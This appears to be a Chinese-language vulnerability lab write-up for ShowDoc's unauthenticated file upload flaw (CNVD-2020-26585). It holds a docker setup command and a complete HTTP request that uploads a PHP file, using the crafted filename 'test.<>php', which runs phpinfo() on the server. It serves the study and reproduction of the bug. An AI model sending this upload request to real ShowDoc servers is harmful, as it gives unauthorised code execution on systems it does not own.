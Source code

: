 # ShowDoc 前台任意文件上传（CNVD-2020-26585）

Showdoc 是一个开源的在线共享文档工具。

Showdoc <= 2.8.6 存在uploadImg 文件上传漏洞，该漏洞源于未正确使用upload方法至文件后缀限制失效，攻击者可在未授权的情况下上传任意文件，进而获取服务器权限等。

参考链接：

- <https://github.com/star7th/showdoc/pull/1059>
- <https://github.com/star7th/showdoc/commit/fb77dd4db88dc23f5e570fc95919ee882aca520a>
- <https://github.com/star7th/showdoc/commit/e1cd02a3f98bb227c0599e7fa6b803ab1097597f>

## 漏洞环境

执行如下命令启动一个ShowDoc 2.8.2服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到ShowDoc的主页。

## 漏洞复现

发送如下请求上传一个PHP文件：

```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0RdOKBR8AmAxfRyl
Content-Length: 213

------WebKitFormBoundary0RdOKBR8AmAxfRyl
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?=phpinfo();?>
------WebKitFormBoundary0RdOKBR8AmAxfRyl--

```

PHP文件路径将返回在数据包中：

![](1.png)

访问即可查看到`phpinfo()`执行结果：

![](2.png)
